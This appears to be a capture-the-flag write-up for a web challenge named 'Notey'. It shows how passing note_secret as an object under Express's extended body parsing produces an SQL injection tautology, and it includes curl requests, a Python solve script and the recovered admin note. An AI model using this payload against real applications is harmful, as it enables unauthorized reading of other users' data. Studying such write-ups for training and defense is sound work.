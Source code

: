```yaml
---
title: Notey
date: 2024-09-03
author: zacian
tags:
  - Web
draft: false
---
```


## Description

I created a note sharing website for everyone to talk to themselves secretly. Don't try to access others notes, grass isn't greener :'( )

----

Note : While making this writeup, the challenge infrastucture were already closed, so i had to setup the application manually

## Intuition

Like the other Web challenge [Watermelon](/bhmeaq2024/watermelon/), this challenge too don't have any dedicated frontend to interact with, so we have to send request to backend manually using cURL or BurpSuite

After going through the JavaScript code in `src` folder that was provided to us as public attachment, we can spot different functionalities in `index.js` file. Let's go through it one by one

First the login, so let's try to login

```
$ curl -X POST http://127.0.0.1:5000/register \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d 'username=user&password=password'

....
{"message":"Registration successful"}
```

Now let's login to obtain the session cookie

```
$ curl -v -X POST http://127.0.0.1:5000/login \   
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d 'username=user&password=password'

......
< Set-Cookie: connect.sid=s%3AWLtkc3mMX8pP2RC5Z39hRb3lNEdN7rZD.LqZ7dU2xaScboDj1ENDv%2FPnmfN%2BZXmuxBTtatly%2F248; Path=/; HttpOnly
....
{"message":"Login successful"} 
```

Now in the next part i had some issues. For some weird reason, i was unable to perform or use other functionalities with the cookie the application provided after loging in, i don't know what i was missing but whatever i did, it says `Authentication required.`, maybe we can't use that cookie to act as a user and add or view note 

Anyways in the following i came up with rather a simple python script with just the `request` module and that did the job and also the script contains the actual solution for the challenge, that is to exploit SQL Injection vulnerability i the `viewNote` input parameters

## Vulnerability

```js
app.get('/viewNote', middleware.auth, (req, res) => {
    const { note_id,note_secret } = req.query;

    if (note_id && note_secret){
        db.getNoteById(note_id, note_secret, (err, notes) => {
            if (err) {
            return res.status(500).json({ error: 'Internal Server Error' });
            }
            return res.json(notes);
        });
    }
    else
    {
        return res.status(400).json({"Error":"Missing required data"});
    }
});
```

First of all we can see, the application only checks for `note_id` and `note_secret` and doesn't check for which user is actually asking using `req.session.username` function

[node-js-sql-injection-guide-examples-and-prevention](https://www.stackhawk.com/blog/node-js-sql-injection-guide-examples-and-prevention/), at the very end of this article, under the Type Checking section we can see that an attacker passing in a value that gets evaluated as an Object instead of a String value can cause SQLi Vulnerability. for us it would be something like 

in `index.js` i also noted the following

```js
app.use(bodyParser.urlencoded({
extended: true
}))
```

The extended set to true basically allows user to provide user input as an object 

```
note_id=66&note_secret[secret]=1
```

Here `note_secret[secret]` is passed as an object, this results in the following SQL query:

```sql
SELECT * FROM notes WHERE note_id = 66 AND note_secret = `note_secret` = 1
```

The `note_secret = ``note_secret`` = 1` evaluates to TRUE and is a 1=1 attack. BUT WHY `66` ? This is cause in most CTFs say a new created user get's an id of 2 where the id of admin would be 1, similarly when we upload a single note the note_id it shows is 67 and it's a guess that the note_id of admin might be 66, now number is guessable and BruteForceable but not the note_secret and that's where the we implant our injection attack 

## Solution Code

```py
import requests

URL = "http://127.0.0.1:5000"
s = requests.Session()

GET_REQUEST_MAIN = s.get(URL)
print(GET_REQUEST_MAIN.text)

data = {"username":"test1", "password":"12345678"}
POST_REQUEST_REGISTER = s.post(f"{URL}/register", data=data)
print(POST_REQUEST_REGISTER.text)

data = {"username":"test1", "password":"12345678"}
POST_REQUEST_LOGIN = s.post(f"{URL}/login", data=data)
print(POST_REQUEST_LOGIN.text)

data = {"content":"this is content", "note_secret":"12345678"}
POST_REQUEST_ADD_NOTE = s.post(f"{URL}/addNote", data=data)
print(POST_REQUEST_ADD_NOTE.text)

GET_REQUEST_PROFILE = s.get(f"{URL}/profile")
print(GET_REQUEST_PROFILE.text)

GET_REQUEST_VIEW_NOTE = s.get(f"{URL}/viewNote?note_id=66&note_secret[secret]=1")
print(GET_REQUEST_VIEW_NOTE.text)
exit()
```

The output with the flag

```
Welcome
{"message":"Registration successful"}
{"message":"Login successful"}
{"message":"Note added successful"}
[{"note_id":67,"username":"test1","note":"this is content"}]
[{"note_id":66,"username":"admin","note":"BHFlagY{tesst_flag}"}]
```